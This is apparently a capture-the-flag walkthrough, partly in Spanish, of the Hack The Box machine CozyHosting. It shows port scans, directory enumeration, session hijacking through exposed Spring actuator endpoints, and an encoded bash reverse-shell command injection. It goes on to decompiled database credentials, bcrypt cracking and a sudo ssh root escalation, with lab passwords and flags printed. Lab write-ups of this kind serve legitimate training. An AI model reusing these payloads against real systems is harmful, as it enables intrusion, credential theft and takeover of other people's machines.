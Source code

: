 `nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.230 -oG allPorts`

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-09 20:01 -03
Initiating SYN Stealth Scan at 20:01
Scanning 10.10.11.230 [65535 ports]
Discovered open port 80/tcp on 10.10.11.230
Discovered open port 8888/tcp on 10.10.11.230
Discovered open port 22/tcp on 10.10.11.230
Discovered open port 8000/tcp on 10.10.11.230
Completed SYN Stealth Scan at 20:01, 14.69s elapsed (65535 total ports)
Nmap scan report for 10.10.11.230
Host is up, received user-set (0.16s latency).
Scanned at 2023-12-09 20:01:42 -03 for 15s
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE        REASON
22/tcp   open  ssh            syn-ack ttl 63
80/tcp   open  http           syn-ack ttl 63
8000/tcp open  http-alt       syn-ack ttl 63
8888/tcp open  sun-answerbook syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 14.82 seconds
           Raw packets sent: 71989 (3.168MB) | Rcvd: 71791 (2.872MB)
```

```bash
nvim /etc/hosts
cozyhosting.htb
```

[http://cozyhosting.htb/](http://cozyhosting.htb/)

`nmap -p 22,80,8000,8888 -n -Pn -sCV --min-rate 5000 10.10.11.230 -oN targeted`

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-09 20:10 -03
Nmap scan report for 10.10.11.230
Host is up (0.16s latency).

PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4356bca7f2ec46ddc10f83304c2caaa8 (ECDSA)
|_  256 6f7a6c3fa68de27595d47b71ac4f7e42 (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
8000/tcp open  http            SimpleHTTPServer 0.6 (Python 3.10.12)
|_http-title: Directory listing for /
|_http-server-header: SimpleHTTP/0.6 Python/3.10.12
8888/tcp open  sun-answerbook?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 99.85 seconds
```

`gobuster dir -u http://cozyhosting.htb -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20`

```bash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cozyhosting.htb
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/12/09 20:33:40 Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 12706]
/login                (Status: 200) [Size: 4431] 
/admin                (Status: 401) [Size: 97]   
/logout               (Status: 204) [Size: 0]    
/error                (Status: 500) [Size: 73]   
/http%3A%2F%2Fwww     (Status: 400) [Size: 435]  
/http%3A%2F%2Fyoutube (Status: 400) [Size: 435]  
/%C0                  (Status: 400) [Size: 435]  
Progress: 66949 / 220561 (30.35%)               ^C
[!] Keyboard interrupt detected, terminating.
                                                 
===============================================================
2023/12/09 20:42:46 Finished
===============================================================
```

`dirsearch -u http://cozyhosting.htb`

```bash
  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10903

Output File: /usr/lib/python3/dist-packages/dirsearch/reports/cozyhosting.htb/_23-12-09_21-29-22.txt

Error Log: /usr/lib/python3/dist-packages/dirsearch/logs/errors-23-12-09_21-29-22.log

Target: http://cozyhosting.htb/

[21:29:23] Starting: 
[21:29:35] 200 -    0B  - /Citrix//AccessPlatform/auth/clientscripts/cookies.js
[21:29:39] 400 -  435B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[21:29:40] 400 -  435B  - /a%5c.aspx
[21:29:41] 200 -  634B  - /actuator
[21:29:41] 200 -    5KB - /actuator/env
[21:29:41] 200 -   15B  - /actuator/health
[21:29:41] 200 -   10KB - /actuator/mappings
[21:29:42] 200 -   98B  - /actuator/sessions
[21:29:42] 200 -  124KB - /actuator/beans
[21:29:42] 401 -   97B  - /admin
[21:30:01] 200 -    0B  - /engine/classes/swfupload//swfupload.swf
[21:30:01] 200 -    0B  - /engine/classes/swfupload//swfupload_f9.swf
[21:30:01] 500 -   73B  - /error
[21:30:02] 200 -    0B  - /examples/jsp/%252e%252e/%252e%252e/manager/html/
[21:30:02] 200 -    0B  - /extjs/resources//charts.swf
[21:30:05] 200 -    0B  - /html/js/misc/swfupload//swfupload.swf
[21:30:06] 200 -   12KB - /index
[21:30:08] 200 -    4KB - /login
[21:30:08] 200 -    0B  - /login.wdm%2e
[21:30:09] 204 -    0B  - /logout
[21:30:19] 400 -  435B  - /servlet/%C0%AE%C0%AE%C0%AF

Task Completed
<dirsearch.dirsearch.Program object at 0x7f4c978d4b80>
```

[http://cozyhosting.htb/actuator/sessions](http://cozyhosting.htb/actuator/sessions)

```bash
AB7F8F8A0FC69FF5B97CB969B3A1298F	"UNAUTHORIZED"
251BBD1B1E1BBFFA5A4AA34F8DB4EC12	"UNAUTHORIZED"
65863FCFFD32AA46AE8234FCB285B739	"UNAUTHORIZED"
F99CF05847D0C79B554F3C58AAFC0D7A	"kanderson"
```

`JSESSIONID:"F99CF05847D0C79B554F3C58AAFC0D7A"`

[http://cozyhosting.htb/admin](http://cozyhosting.htb/admin)

`echo "bash -i >& /dev/tcp/<ip-atacante>/<puerto> 0>&1" | base64`
`echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNDYvNzc3NyAwPiYxCg==" | base64 -d | bash`
`;echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNDYvNDE0MiAwPiYxCg=="|base64${IFS}-d|bash;`
`%3becho${IFS}"YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4yNDYvNDE0MiAwPiYxCg%3d%3d"|base64${IFS}-d|bash%3b`

Tratamiento de la TTY
```bash
script /dev/null -c bash
ctrl + z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 columns 184
```

```bash
cd /app
ls -l
cloudhosting-0.0.1.jar

python3 -m http.server 80
```

```bash
wget http://<ip-victima>/<port>/cloudhosting-0.0.1.jar
```

[https://java-decompiler.github.io/](https://java-decompiler.github.io/)

`java -jar jd-gui-1.6.6.jar`

application.properties
```
```java
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

scheduled/FakeUser.class
```java
username -> kanderson
password -> MRdEQuv6~6P9
```

`psql "postgresql://postgres:Vg&nvzAQ7XxR@127.0.0.1:5432/cozyhosting"`

```bash
\l
\c cozyhosting
\dt
\d users
SELECT * FROM users;

   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt admin

Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)
1g 0:00:00:12 DONE (2023-12-13 09:22) 0.07710g/s 216.4p/s 216.4c/s 216.4C/s hellomoto..keyboard
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

```bash
su josh
manchesterunited
```

```bash
cd /home/jose
cat user.txt
```

> [!IMPORTANT]
> User flag: c07db06d197bee1a21bfdad6494b6519

```bash
sudo -l
manchesterunited

Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

[https://gtfobins.github.io/gtfobins/ssh/#sudo](https://gtfobins.github.io/gtfobins/ssh/#sudo)

`sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x`

```bash
cd /root
cat root.txt
```

> [!IMPORTANT]
> Root flag: 6b8ccb9c26ebf11122a9e82977301258

